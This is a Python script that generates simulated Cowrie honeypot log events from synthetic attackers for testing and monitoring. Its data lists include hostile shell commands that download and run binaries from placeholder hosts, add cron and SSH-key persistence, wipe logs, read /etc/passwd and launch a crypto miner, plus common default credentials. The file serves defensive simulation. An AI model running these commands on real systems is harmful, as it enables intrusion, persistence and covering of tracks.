  python simulate_attacks.py --out ./sim.json --seed 7           # deterministic output
"""
import argparse
import hashlib
import ipaddress
import json
import os
import random
import sys
import time
from datetime import datetime, timedelta, timezone

REGIONS = {  # region -> (weight, first octets typical of that registry region)
    "asia_pacific": (0.35, [1, 14, 27, 36, 39, 42, 49, 58, 59, 60, 61, 101, 103, 106, 110, 111, 112, 113, 114, 115,
                            116, 117, 118, 119, 120, 121, 122, 123, 124, 125, 175, 180, 182, 183, 202, 210, 211,
                            218, 219, 220, 221, 222]),
    "europe": (0.25, [2, 5, 31, 37, 46, 62, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93,
                      94, 95, 109, 141, 145, 151, 176, 178, 185, 188, 193, 194, 195, 212, 213, 217]),
    "north_america": (0.15, [12, 23, 24, 50, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 96, 97, 98,
                             99, 104, 107, 108, 162, 166]),
    "latin_america": (0.15, [177, 179, 181, 186, 187, 189, 190, 191, 200, 201]),
    "africa_mideast": (0.10, [41, 102, 105, 154, 155, 196, 197]),
}

CREDS = [("root", "root"), ("root", "123456"), ("root", "password"), ("admin", "admin"), ("admin", "1234"),
         ("ubuntu", "ubuntu"), ("pi", "raspberry"), ("user", "user"), ("test", "test"), ("oracle", "oracle"),
         ("postgres", "postgres"), ("root", "admin"), ("root", "toor"), ("guest", "guest"), ("support", "support"),
         ("ftpuser", "ftpuser"), ("git", "git"), ("hadoop", "hadoop"), ("root", "12345"), ("admin", "password"),
         ("root", "qwerty"), ("default", "default"), ("ubnt", "ubnt"), ("vagrant", "vagrant"), ("deploy", "deploy")]

CLIENTS = [  # (client banner, label used to derive a stable, made-up HASSH-like fingerprint)
    ("SSH-2.0-libssh_0.9.6", "libssh-0.9"), ("SSH-2.0-Go", "golang-ssh"), ("SSH-2.0-paramiko_3.4.0", "paramiko"),
    ("SSH-2.0-PuTTY_Release_0.70", "putty"), ("SSH-2.0-OpenSSH_8.9p1", "openssh-8.9"),
    ("SSH-2.0-JSCH-0.1.54", "jsch"), ("SSH-2.0-AsyncSSH_2.14", "asyncssh"),
]

RECON = ["uname -a", "whoami", "id", "cat /proc/cpuinfo | grep name | wc -l", "free -m", "lscpu", "ls -la /tmp",
         "cat /etc/passwd", "w", "ps aux", "ifconfig", "df -h", "uname -s -v -n -r -m", "nproc"]
PERSIST = ["cd /tmp; chmod +x bins.sh; sh bins.sh", "crontab -l",
           "echo '* * * * * /tmp/.x/update' | crontab -", "mkdir -p ~/.ssh; echo 'ssh-rsa AAAAB3Nza...fake attacker@box' >> ~/.ssh/authorized_keys",
           "rm -rf /var/log/wtmp", "history -c"]
MINER = ["cd /tmp; wget http://198.51.100.{n}/xmrig -O .x; chmod +x .x", "nohup ./.x -o stratum+tcp://pool.example.invalid:3333 -u 4FAKEWALLET &",
         "pkill -f minerd"]
DROPPER = ["cd /tmp; wget http://198.51.100.{n}/{bin} -O b; chmod 777 b; ./b",
           "cd /tmp || cd /var/run; curl -O http://198.51.100.{n}/{bin}; chmod +x {bin}; ./{bin} ssh.{n}",
           "tftp -g -r {bin} 203.0.113.{n}; chmod +x {bin}; ./{bin}"]
BINS = ["x86_64", "arm7", "mips", "bins.sh", "update.sh"]
SENSOR = os.environ.get("COWRIE_HOSTNAME", "srv-db-04")
DST_IP = "172.18.0.2"

def fake_hash(label, n=0):
    return hashlib.sha256(f"simulated-malware::{label}::{n}".encode()).hexdigest()

def fake_hassh(label):
    return hashlib.md5(f"simulated-hassh::{label}".encode()).hexdigest()

def random_public_ip(rng):
    names = list(REGIONS)
    region = rng.choices(names, weights=[REGIONS[n][0] for n in names])[0]
    while True:
        ip = ipaddress.ip_address(f"{rng.choice(REGIONS[region][1])}.{rng.randint(0, 255)}.{rng.randint(0, 255)}.{rng.randint(1, 254)}")
        if ip.is_global:
            return str(ip)

class Attacker:
    PERSONAS = ["scanner", "bruteforcer", "dropper", "miner", "recon", "proxy"]
    WEIGHTS = [0.30, 0.30, 0.12, 0.08, 0.12, 0.08]

    def __init__(self, rng):
        self.ip = random_public_ip(rng)
        self.persona = rng.choices(self.PERSONAS, weights=self.WEIGHTS)[0]
        self.client = rng.choice(CLIENTS)
        self.telnet = rng.random() < 0.25
        self.n = rng.randint(2, 250)
        self.sessions = max(1, int(rng.paretovariate(1.3)))   # heavy-tailed: a few noisy repeat attackers

def iso(ts):
    return ts.strftime("%Y-%m-%dT%H:%M:%S.") + f"{ts.microsecond:06d}Z"

def session_events(rng, att, start):
    """Return the list of Cowrie events for one attacker session starting at `start`."""
    sid = "%012x" % rng.getrandbits(48)
    sport = rng.randint(1025, 65535)
    proto = "telnet" if att.telnet else "ssh"
    dport = 2223 if att.telnet else 2222
    base = {"src_ip": att.ip, "src_port": sport, "dst_ip": DST_IP, "dst_port": dport, "session": sid,
            "sensor": SENSOR}
    t = [start]

    def ev(eventid, message, gap=0.4, **extra):
        t[0] = t[0] + timedelta(seconds=rng.uniform(gap * 0.3, gap * 1.7))
        d = {"eventid": eventid, "message": message, "timestamp": iso(t[0]), **base, **extra}
        return d

    out = [{"eventid": "cowrie.session.connect", "src_ip": att.ip, "src_port": sport, "dst_ip": DST_IP,
            "dst_port": dport, "session": sid, "protocol": proto, "sensor": SENSOR, "timestamp": iso(start),
            "message": f"New connection: {att.ip}:{sport} ({DST_IP}:{dport}) [session: {sid}]"}]
    if not att.telnet:
        out.append(ev("cowrie.client.version", f"Remote SSH version: {att.client[0]}", version=att.client[0]))
        out.append(ev("cowrie.client.kex", f"SSH client hassh fingerprint: {fake_hassh(att.client[1])}",
                      hassh=fake_hassh(att.client[1]), hasshAlgorithms="curve25519-sha256;aes128-ctr;hmac-sha2-256;none"))

    def login(success):
        u, p = rng.choice(CREDS)
        if success:
            out.append(ev("cowrie.login.success", f"login attempt [{u}/{p}] succeeded", gap=0.8, username=u, password=p))
        else:
            out.append(ev("cowrie.login.failed", f"login attempt [{u}/{p}] failed", gap=0.8, username=u, password=p))

    def commands(cmds):
        for c in cmds:
            out.append(ev("cowrie.command.input", f"CMD: {c}", gap=1.5, input=c))

    if att.persona == "scanner":
        pass
    elif att.persona == "bruteforcer":
        for _ in range(rng.randint(3, 14)):
            login(False)
        if rng.random() < 0.25:
            login(True)
            commands(rng.sample(RECON, rng.randint(1, 3)))
    elif att.persona == "recon":
        for _ in range(rng.randint(0, 3)):
            login(False)
        login(True)
        commands(rng.sample(RECON, rng.randint(3, 7)))
    elif att.persona == "dropper":
        for _ in range(rng.randint(1, 4)):
            login(False)
        login(True)
        commands(rng.sample(RECON, 2))
        b = rng.choice(BINS)
        c = rng.choice(DROPPER).format(n=att.n % 254 + 1, bin=b)
        commands([c])
        url = f"http://198.51.100.{att.n % 254 + 1}/{b}"
        sha = fake_hash("dropper-" + b, att.n % 3)
        out.append(ev("cowrie.session.file_download", f"Downloaded URL ({url}) with SHA-256 {sha} to var/lib/cowrie/downloads/{sha}",
                      gap=2.0, url=url, outfile=f"var/lib/cowrie/downloads/{sha}", shasum=sha, destfile="b"))
        commands(rng.sample(PERSIST, 2))
    elif att.persona == "miner":
        login(True)
        commands(rng.sample(RECON, 2))
        commands([MINER[0].format(n=att.n % 254 + 1)])
        url = f"http://198.51.100.{att.n % 254 + 1}/xmrig"
        sha = fake_hash("xmrig", att.n % 2)
        out.append(ev("cowrie.session.file_download", f"Downloaded URL ({url}) with SHA-256 {sha} to var/lib/cowrie/downloads/{sha}",
                      gap=2.0, url=url, outfile=f"var/lib/cowrie/downloads/{sha}", shasum=sha, destfile=".x"))
        commands(MINER[1:])
    elif att.persona == "proxy" and not att.telnet:
        login(True)
        for _ in range(rng.randint(1, 4)):
            out.append(ev("cowrie.direct-tcpip.request", "direct-tcpip request to example.invalid:25", gap=1.0,
                          dst_ip="203.0.113.25", dst_port=25))
    dur = (t[0] - start).total_seconds() + rng.uniform(0.5, 6)
    t[0] = t[0] + timedelta(seconds=dur - (t[0] - start).total_seconds())
    out.append(ev("cowrie.session.closed", f"Connection lost after {dur:.1f} seconds", gap=0.01, duration=round(dur, 1)))
    # protocol only exists on the connect event in real Cowrie; keep that behaviour
    return out

def generate(rng, target_events, hours, now):
    attackers = []
    events = []
    window = hours * 3600
    while len(events) < target_events:
        att = Attacker(rng)
        attackers.append(att)
        for _ in range(att.sessions):
            # sessions cluster in bursts (attack campaigns) rather than uniform noise
            burst = rng.random() < 0.6
            offset = rng.gauss(window * rng.choice([0.25, 0.55, 0.85]), window * 0.06) if burst else rng.uniform(0, window)
            start = now - timedelta(seconds=max(5, min(window - 5, offset)))
            events.extend(session_events(rng, att, start))
            if len(events) >= target_events:
                break
    events.sort(key=lambda e: e["timestamp"])
    return events, attackers

def main():
    ap = argparse.ArgumentParser(description=__doc__, formatter_class=argparse.RawDescriptionHelpFormatter)
    ap.add_argument("--events", type=int, default=3000, help="approximate number of events (batch mode)")
    ap.add_argument("--hours", type=float, default=24, help="spread events over the last N hours")
    ap.add_argument("--seed", type=int, default=None, help="random seed for reproducible output")
    ap.add_argument("--out", default="/cowrie-logs/simulated.json", help="output file (NDJSON, appended)")
    ap.add_argument("--live", action="store_true", help="keep emitting events in real time (Ctrl+C to stop)")
    ap.add_argument("--rate", type=float, default=3.0, help="approx events/second in --live mode")
    args = ap.parse_args()

    rng = random.Random(args.seed)
    os.makedirs(os.path.dirname(os.path.abspath(args.out)), exist_ok=True)

    if not args.live:
        events, attackers = generate(rng, args.events, args.hours, datetime.now(timezone.utc))
        with open(args.out, "a", encoding="utf-8", newline="\n") as fh:
            for e in events:
                fh.write(json.dumps(e, separators=(",", ":")) + "\n")
        print(f"wrote {len(events)} simulated events from {len(attackers)} synthetic attackers to {args.out}")
        return

    print(f"live mode: ~{args.rate} events/s -> {args.out} (Ctrl+C to stop)")
    try:
        with open(args.out, "a", encoding="utf-8", newline="\n", buffering=1) as fh:
            while True:
                att = Attacker(rng)
                for e in session_events(rng, att, datetime.now(timezone.utc)):
                    fh.write(json.dumps(e, separators=(",", ":")) + "\n")
                    time.sleep(rng.expovariate(args.rate))
    except KeyboardInterrupt:
        print("stopped")

if __name__ == "__main__":
    sys.exit(main())
------------------------------------------------------------------------------
END OF FILE: tools/simulate_attacks.py
------------------------------------------------------------------------------

==============================================================================
 END OF REPORT
==============================================================================
